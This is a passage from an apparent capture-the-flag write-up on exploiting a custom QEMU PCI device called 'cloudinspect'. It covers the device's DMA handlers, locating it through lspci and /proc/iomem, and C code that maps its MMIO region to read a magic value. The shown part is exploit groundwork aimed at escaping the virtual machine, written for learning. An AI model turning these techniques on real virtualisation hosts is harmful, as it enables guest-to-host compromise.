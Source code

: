 ```c
			cloudinspect->dma.dst,
			cloudinspect->dma_buf + src,
			cloudinspect->dma.cnt
		);
	}
}
```

So far, we know that we can interact with a memory region via MMIO and trigger calls to `dma_memory_write` and `dma_memory_read`. The second parameter to each of these functions is a physical address in the guest's memory, the third one is an address in qemu's regular virtual address space, and the fourth one is the amount of bytes to be transferred between each.

## Interacting with the PCI device ##

In order to exploit the device, we first must find a way to interact with it. After launching the VM, we can use `lspci -v` to get a list of available devices:

```
/ # lspci -v
00:01.0 Class 0601: 8086:7000
00:00.0 Class 0600: 8086:1237
00:01.3 Class 0680: 8086:7113
00:01.1 Class 0101: 8086:7010
00:02.0 Class 00ff: 1337:1337
```

The device with ID 1337 looks interesting. In the source code for our device, we find the following defines:

```c
#define CLOUDINSPECT_VENDORID            0x1337
#define CLOUDINSPECT_DEVICEID            0x1337
```

Now that we have identified the device, we can list its memory range with `/proc/iomem`:

```
/ # cat /proc/iomem 
...
08000000-febfffff : PCI Bus 0000:00
  feb00000-febfffff : 0000:00:02.0
...
```

The memory range for device `00:02.0` is `feb00000-febfffff`. If we map it and read its offset zero, we should see the magic number shown the switch case case in `cloudinspect_mmio_read`:

```c
#define DEV_ADDR 0xfeb00000
#define MAP_SIZE 0xfffff

typedef uint64_t u64;

u64 read_magic(volatile void* mem) {
	return *(u64*)((uintptr_t)mem);
}

void* map_device(int fd) {
	void* mem;

	mem = mmap(NULL, MAP_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, fd, DEV_ADDR);
	if (mem == MAP_FAILED)
		err(EXIT_FAILURE, "mmap");

	return mem;
}

```